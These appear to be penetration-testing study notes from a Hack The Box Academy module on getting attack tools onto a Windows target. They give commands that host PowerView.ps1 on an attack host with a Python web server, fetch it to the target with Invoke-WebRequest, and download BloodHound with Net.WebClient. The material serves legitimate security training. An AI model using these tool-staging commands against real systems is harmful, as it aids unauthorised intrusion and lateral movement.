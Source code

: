 

### Example Path to Bring Tools Into an Environment
- If we already had PowerView.ps1 stored on our `attack host` we could use a simple Python web server to host PowerView.ps1 and download it from the target. 
- From the attack host, we want to confirm that the file is already present or we need to download it. 
- In this example, we can assume it is already on the attack host for demonstration purposes.
- #### Using ls to View the File (Attack Host)
```shell-session
secmancer@htb[/htb]$ ls

Dictionaries            Get-HttpStatus.ps1                    Invoke-Portscan.ps1          PowerView.ps1  Recon.psd1
Get-ComputerDetail.ps1  Invoke-CompareAttributesForClass.ps1  Invoke-ReverseDnsLookup.ps1  README.md      Recon.psm1
```
- We start a simple python web server in the directory where PowerView.ps1 is located.
- #### Starting the Python Web Server (Attack Host)
```shell-session
secmancer@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
- Then, we would download the hosted file from the attack host using Invoke-WebRequest.
- #### Downloading PowerView.ps1 from Web Server (From Attack Host to Target Host)
```powershell-session
Invoke-WebRequest -Uri "http://10.10.14.169:8000/PowerView.ps1" -OutFile "C:\PowerView.ps1"
```
- As discussed previously, we can use the Invoke-WebRequest cmdlet to send commands to remote hosts. 
- This can be pretty useful, especially when we discover vulnerabilities that allow us to execute commands on a Windows target but may not have access via an interactive shell or remote desktop session. 
- This could allow us to download files onto the target host, allowing us to further our access to that target and move to others on the network. 
- File transfer methods are covered in greater detail in the module [File Transfers](https://academy.hackthebox.com/module/details/24).



### What If We Can't Use Invoke-WebRequest?
- So what happens if we are restricted from using `Invoke-WebRequest` for some reason? 
- Not to fear, Windows provides several different methods to interact with web clients. 
- The first and more challenging interaction path is utilizing the [.Net.WebClient](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-7.0) class. 
- This handy class is a .Net call we can utilize as Windows uses and understands .Net. 
- This class contains standard system.net methods for interacting with resources via a URI (web addresses like github.com/project/tool.ps1). 
- Let's look at an example.
- #### Net.WebClient Download
```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile("https://github.com/BloodHoundAD/BloodHound/releases/download/4.2.0/BloodHound-win32-x64.zip", "Bloodhound.zip")

PS C:\htb> ls

    Directory: C:\Users\MTanaka

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a---          11/10/2022 10:45 AM      108511752 Bloodhound.zip
-a---           6/14/2022  8:22 AM           4418 passwords.kdbx
-a---            9/9/2020  4:54 PM         696576 Start.exe
-a---           9/11/2021 12:58 PM              0 sticky.gpr
-a---          11/10/2022 10:44 AM      108511752 test.zip
```